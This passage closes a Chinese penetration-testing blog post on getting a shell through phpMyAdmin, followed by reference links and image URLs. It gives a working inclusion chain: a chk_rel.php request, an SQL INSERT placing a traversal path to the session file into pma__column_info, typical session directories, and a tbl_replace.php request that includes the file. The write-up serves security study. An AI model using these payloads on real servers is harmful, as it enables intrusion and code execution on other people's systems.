 ```
http://10.1.1.10/chk_rel.php?fixall_pmadb=1&db=foo
```

篡改数据插入`pma column_info`中：

```
INSERT INTO` pma__column_infoSELECT '1', 'foo', 'bar', 'baz', 'plop','plop', ' plop', 'plop','../../../../../../../../tmp/sess_***','plop'; # *** 为phpMyAdmin 的COOKIE值
```

这里要注意不用系统的`session`保存位置不同，具体系统可以在`phpMyAdmin`登录后首页看到

`MacOS`：`/var/tmp`
`Linux`：`/var/lib/php/sessions`
`phpStudy`：`/phpstudy/PHPTutorial/tmp/tmp`

访问包含`Session`文件的地址：

```
http://10.1.1.10/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[ multi_edit][][]=baz&clause_is_unique=1
```

参考文章：

- [phpMyAdmin 渗透利用总结][17]
- [phpmyadmin getshell 之利用日志文件][18]
- [phpMyAdmin 后台 GetShell 实战应用][19]
- [phpMydmin 的 GetShell 思路][20]

[1]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_111241.png
[2]: https://img.soapffz.com/archives_img/2020/02/13/https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_112857.png
[3]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_125442.png
[4]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_132709.png
[5]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131046.png
[6]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131258.png
[7]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131352.png
[8]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130356.png
[9]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130718.png
[10]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_133321.png
[11]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134455.png
[12]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134522.png
[13]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135233.png
[14]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135252.png
[15]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_142449.png
[16]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_143545.png
[17]: https://mp.weixin.qq.com/s/9Tkcn2AtGrHUsIbRCQ-ZSQ
[18]: https://mp.weixin.qq.com/s/Y1ZtcQ-VuIh89RDcYoD3hQ
[19]: https://mp.weixin.qq.com/s/IWjGPQ155kZnUxh5fjb1RQ
[20]: https://www.freebuf.com/articles/web/226240.html